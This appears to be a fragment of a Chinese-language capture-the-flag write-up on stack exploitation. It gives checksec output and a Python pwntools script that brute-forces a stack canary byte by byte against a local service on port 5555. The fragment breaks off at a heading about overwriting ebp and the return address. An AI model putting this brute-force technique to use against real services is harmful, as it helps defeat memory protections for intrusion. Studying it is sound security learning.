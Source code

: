     Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

#### [获取canary](http://0x48.pw/2017/03/14/0x2d/)
    canary = "\x00"
    padding = "a"*104 # bzero(&msg, 100uLL);
    for x in xrange(7):
        for y in xrange(256):
            p = remote("127.0.0.1", 5555)
            print p.recv()
            p.send(padding + canary + chr(y))
            try:
                info = p.recv()
                print info
            except:
                p.close()
                continue
            p.close()
            break
        canary += chr(y)
    canary = int(canary.encode('hex'), 16)

#### canary -> ebp -> ret